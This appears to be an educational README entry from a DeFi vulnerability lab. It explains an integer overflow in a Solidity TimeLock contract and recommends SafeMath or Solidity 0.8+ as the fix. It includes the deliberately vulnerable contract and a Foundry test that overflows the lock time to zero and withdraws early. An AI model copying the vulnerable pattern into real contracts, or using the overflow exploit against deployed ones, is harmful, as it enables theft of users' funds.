

# Integer Overflow   
[Overflow.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Overflow.sol)   
**Name:** Integrate Overflow  
**Description:**  
The TimeLock has a flaw in the smart contract code that allows
an attacker to prematurely withdraw their deposited funds from the TimeLock contract.  
The vulnerability arises due to an overflow in the increaseLockTime function,
which manipulates the lock time in a way that causes it to wrap around to 0,
enabling the attacker to withdraw their funds before the actual waiting period expires.

**Scenario:**

This contract is designed to act as a time vault.
User can deposit into this contract but cannot withdraw for atleast a week.
User can also extend the wait time beyond the 1 week waiting period.

1. Alice and bob both have 1 Ether balance
2. Deploy TimeLock Contract
3. Alice and bob both deposit 1 Ether to TimeLock, they need to wait 1 week to unlock Ether
4. Bob caused an overflow on his lockTime
5, Alice can't withdraw 1 Ether, because the lock time not expired.
5. Bob can withdraw 1 Ether, because the lockTime is overflow to 0

**What happened?**  
Attack caused the TimeLock.lockTime to overflow,
and was able to withdraw before the 1 week waiting period.

**Impact:** Solidity < 0.8 and without SafeMath

**Mitigation:**

To mitigate the Overflow vulnerability, use SafeMath library or use Solidity > 0.8

**TimeLock Contract:**  
```
contract TimeLock {
    mapping(address => uint) public balances;
    mapping(address => uint) public lockTime;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
        lockTime[msg.sender] = block.timestamp + 1 weeks;
    }

    function increaseLockTime(uint _secondsToIncrease) public {
        lockTime[msg.sender] += _secondsToIncrease; // vulnerable
    }

    function withdraw() public {
        require(balances[msg.sender] > 0, "Insufficient funds");
        require(
            block.timestamp > lockTime[msg.sender],
            "Lock time not expired"
        );

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}
```  
****How to Test:****

forge test --contracts src/test/**Overflow.sol** -vvvv
```
// The testOverflow function, used to test for overflow vulnerabilities.
    function testOverflow() public {
        // Log Alice's balance.
        console.log("Alice balance", alice.balance);
        // Log Bob's balance.
        console.log("Bob balance", bob.balance);

        // Log the start of Alice's deposit.
        console.log("Alice deposit 1 Ether...");
        // Set the message sender to Alice.
        vm.prank(alice);
        // Alice deposits 1 ether to the TimeLock contract.
        TimeLockContract.deposit{value: 1 ether}();
        // Log Alice's new balance.
        console.log("Alice balance", alice.balance);

        // Log the start of Bob's deposit.
        console.log("Bob deposit 1 Ether...");
        // Set the message sender to Bob.
        vm.startPrank(bob);
        // Bob deposits 1 ether to the TimeLock contract.
        TimeLockContract.deposit{value: 1 ether}();
        // Log Bob's new balance.
        console.log("Bob balance", bob.balance);

        // Exploit: Increase the lock time so it overflows and becomes 0.
        TimeLockContract.increaseLockTime(
            type(uint).max + 1 - TimeLockContract.lockTime(bob)
        );

        // Log that Bob can now withdraw his funds because the lock time has overflowed.
        console.log(
            "Bob will successfully withdraw, because the lock time is overflowed"
        );
        // Bob withdraws his funds.
        TimeLockContract.withdraw();
        // Log Bob's new balance.
        console.log("Bob balance", bob.balance);
        // Stop Bob's prank.
        vm.stopPrank();

        // Start Alice's prank.
        vm.prank(alice);
        // Log that Alice can't withdraw her funds because the lock time has not expired.
        console.log(
            "Alice will fail to withdraw, because the lock time did not expire"
        );
        // Try to withdraw Alice's funds. This should revert because the lock time has not expired.
        TimeLockContract.withdraw(); // expect revert
    }
```  
Red box: the TimeLock.lockTime to overflow  
Purple box: issue fixed.  

